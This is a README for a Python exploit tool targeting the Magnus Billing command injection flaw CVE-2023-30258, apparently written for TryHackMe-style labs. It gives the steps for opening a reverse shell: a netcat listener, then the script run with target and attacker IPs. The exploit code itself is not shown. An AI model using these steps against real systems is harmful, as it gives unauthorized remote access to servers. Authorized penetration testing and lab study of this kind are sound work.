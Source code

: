 # CVE-2023-30258 - Magnus Billing Command Injection Exploit

![Exploit](https://img.shields.io/badge/Exploit-CVE--2023--30258-red)
![Python](https://img.shields.io/badge/Python-3.x-blue)
![Security](https://img.shields.io/badge/Security-Ethical--Hacking-green)

## 📌 **Description**
This is a Python exploit script for **CVE-2023-30258**, a **Command Injection Vulnerability** found in **Magnus Billing**. The script sends a **base64-encoded reverse shell payload** to the vulnerable endpoint and attempts to gain remote access to the target system.

🔴 **This tool is for educational and authorized penetration testing purposes only.** Unauthorized usage is illegal!

---

## ⚙️ **Requirements**
- Python 3.x  
- A target vulnerable to **CVE-2023-30258**  
- Netcat (`nc`) installed on your attacker machine  

---

## 🚀 **Usage**
### **1️⃣ Start a Netcat Listener**
On your **attacking machine**, run:
```bash
nc -lvnp 1234
```
then:
```bash
python3 mangus_rce.py -t 'http://TARGET_IP/' -lh ATTACKER_IP(tun0 ip in case doing fro THM) -lp LISTENER_PORT (Same as nc)
```

## Help

For help menu:
```
python3 magnus_rce.py -h
```

Example:
  ```python3 scr.py -t 'http://10.10.140.75/' -lh 10.21.137.155 -lp 1234```


## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.
